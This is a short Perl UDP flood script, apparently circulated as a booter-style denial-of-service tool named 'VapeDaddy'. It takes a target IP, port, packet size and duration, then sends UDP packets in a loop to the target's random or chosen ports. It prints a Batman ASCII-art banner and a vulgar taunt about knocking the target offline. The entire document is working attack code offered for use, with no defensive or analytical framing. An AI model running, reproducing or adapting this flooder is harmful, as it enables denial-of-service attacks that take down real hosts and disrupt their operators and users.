 #!/usr/bin/perl

use Term::ANSIColor qw(:constants);
    $Term::ANSIColor::AUTORESET = 2;

##
# VapeDaddy 
##

use Socket;
use strict;

my ($ip,$port,$size,$time) = @ARGV;

my ($iaddr,$endtime,$psize,$pport);

$iaddr = inet_aton("$ip") or die "Cannot resolve hostname $ip\n";
$endtime = time() + ($time ? $time : 100);
socket(flood, PF_INET, SOCK_DGRAM, 17);

print BOLD RED<<EOTEXT;

MMMMMMMMMMMMMMMMMMMMM                              MMMMMMMMMMMMMMMMMMMMM
 `MMMMMMMMMMMMMMMMMMMM           N    N           MMMMMMMMMMMMMMMMMMMM'
   `MMMMMMMMMMMMMMMMMMM          MMMMMM          MMMMMMMMMMMMMMMMMMM'  
     MMMMMMMMMMMMMMMMMMM-_______MMMMMMMM_______-MMMMMMMMMMMMMMMMMMM    
      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM    
      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM    
      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM    
     .MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM.    
    MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM  
                   `MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM'                
                          `MMMMMMMMMMMMMMMMMM'                    
                              `MMMMMMMMMM'                              
                                 MMMMMM                         
                                  MMMM                                  
                                   MM                                  


EOTEXT

print "MemeCFW and The Bat Dropped Yo Shit $ip " . ($port ? $port : "Sucking The Clit") . " With " . 
  ($size ? "$size-Slammed" : "65500") . "Bots" . 
  ($time ? " for $time seconds" : "") . "\n";
print "Stop NULLING With Ctrl-C\n" unless $time;
 
for (;time() <= $endtime;) {
  $psize = $size ? $size : int(rand(1024-64)+64) ;
  $pport = $port ? $port : int(rand(65500))+1;
 
  send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport, $iaddr));}
